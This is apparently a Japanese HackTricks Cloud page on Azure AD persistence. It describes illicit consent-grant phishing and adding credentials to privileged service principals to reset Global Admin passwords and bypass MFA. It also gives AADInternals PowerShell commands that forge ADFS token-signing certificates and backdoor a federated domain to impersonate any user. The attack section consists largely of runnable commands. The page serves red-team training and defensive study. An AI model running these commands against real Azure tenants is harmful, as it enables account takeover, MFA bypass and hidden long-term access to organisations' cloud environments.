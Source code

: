 # Az - 永続性

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加**するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

### 不正な同意付与

デフォルトでは、任意のユーザーがAzure ADでアプリケーションを登録できます。したがって、管理者の同意（管理者であれば承認する）が必要な高い影響権限を必要とするアプリケーションを登録できます（対象テナントのみ）。これにより、**フィッシング攻撃**を実行でき、成功すれば非常に**有益**になります。

さらに、そのアプリケーションを自分のユーザーで受け入れることもでき、アクセスを維持する手段として使用できます。

### アプリケーションとサービス プリンシパル

Application Administrator、GA、またはmicrosoft.directory/applications/credentials/update権限を持つカスタムロールで、既存のアプリケーションに資格情報（シークレットまたは証明書）を追加できます。

**高い権限を持つアプリケーションを対象にする**か、**高い権限を持つ新しいアプリケーションを追加**することが可能です。

アプリケーションに追加する興味深いロールは**特権認証管理者ロール**であり、これにより**グローバル管理者のパスワードをリセット**できます。

このテクニックはまた、**MFAをバイパス**することも可能です。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 証明書ベースの認証
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### フェデレーション - トークン署名証明書

**オンプレミスAD**で**DA権限**を持っている場合、非常に長い有効期間を持つ**新しいトークン署名**および**トークン復号証明書**を作成およびインポートすることが可能です。これにより、私たちはImuutableIDを知っている任意のユーザーとして**ログイン**することができます。

以下のコマンドを**ADFSサーバー上のDA**として実行して、新しい証明書を作成し（デフォルトパスワードは 'AADInternals'）、それらをADFSに追加し、自動ロールオーバーを無効にしてサービスを再起動します：
```powershell
New-AADIntADFSSelfSignedCertificates
```
その後、Azure ADで証明書情報を更新します:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### フェデレーション - 信頼されたドメイン

テナントでGA権限を持っている場合、**新しいドメインを追加**することが可能で、そのドメインの認証タイプをフェデレーテッドに構成し、ドメインを**特定の証明書**（以下のコマンドのany.sts）と発行者を信頼するように構成できます。
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参照

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
